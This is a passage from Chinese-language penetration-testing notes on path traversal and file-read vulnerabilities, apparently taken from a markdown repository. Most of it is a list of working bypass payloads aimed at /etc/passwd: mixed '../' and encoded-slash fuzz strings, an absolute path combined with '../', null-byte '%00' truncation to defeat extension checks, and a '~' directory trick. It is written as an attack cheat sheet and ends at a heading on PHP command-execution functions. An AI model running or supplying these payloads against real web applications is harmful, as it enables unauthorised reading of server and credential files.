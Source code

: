 ```
. = %u002e
/ = %u2215
```

### 非常规组合

“.”、“/”、“”,三个符号随意的组合多次，进行绕过，如必要还可以添加其他符号进行尝试。下面是示例。也就是有点进行Fuzz的意思

```
....//....//etc/passwd
..///....//etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
..././
...\.\
..;/
```



### 绝对路径配合../

有些网站在获取filename图片文件的时候，会首先判断是否以一个固定的路径开头：

那么就可以配合../来返回上一级遍历任意文件：

```bash
?filename=/var/www/images/../../../etc/passwd
```

### 截断文件后缀

某些web对filename的文件类型作了限制，只有当后缀为特定格式时才解析

这时候就可以利用 %00 来截断：（在PHP 5.3.4中被修复）

比如要求后缀为jpg

```bash
?filename=../../../etc/passwd%00.jpg
```

也可以在末尾添加？

### 目录限定绕过

有些Web应用程序是通过限定目录权限来分离的。可以使用一些特殊的符号`~`来绕过。比如提交这样的`xxx.php?filename=~/../boot`。就可以直接跳转到硬盘目录下。

***

# 1-信息收集/2-文件读取/4-文件读取漏洞/2-PHP文件读取

## 相关函数

**此处只做简单介绍，具体介绍将归纳到命令执行**

### 命令执行函数
